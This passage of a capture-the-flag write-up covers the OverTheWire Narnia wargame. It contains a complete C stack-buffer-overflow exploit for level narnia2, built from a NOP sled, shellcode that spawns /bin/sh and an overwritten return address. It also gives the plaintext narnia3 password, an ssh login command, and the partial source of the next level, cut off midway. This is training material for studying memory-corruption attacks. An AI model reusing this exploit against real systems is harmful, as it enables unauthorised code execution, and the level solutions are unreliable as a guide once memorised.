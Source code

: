 ```c
/// nr2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h> ///For the execl function
char buffer[160];
char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
int main(int argc, char *argv[])
{
    unsigned int ret = 0xffffd6c4;

    if(argc != 2)
    {
        printf("Usage %s <offset>", argv[0]);
        return 1;
    }
    int offset = atoi(argv[1]);

    for(int i=0; i<90; i++)
        buffer[i] = '\x90';///NOP sled
    strcpy(buffer+90,  shellcode); ///Put in shellcode
    
    unsigned int i;
    for(i=90+strlen(shellcode); i%4!=0; i++)
        buffer[i] = 'A'; ///make it alligned

    ret = ret - offset;
    for(;i<160; i+=4)
        *((unsigned int *)(buffer+i)) = ret;
    ///write the return address many times

    execl("/narnia/narnia2", "narnia2", buffer, 0);

}
```


## Narnia3 - password: vaequeezee

-> buffer overflow using symbolic links in linux
```bash
ssh narnia3@narnia.labs.overthewire.org -p 2226
```

Source
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
```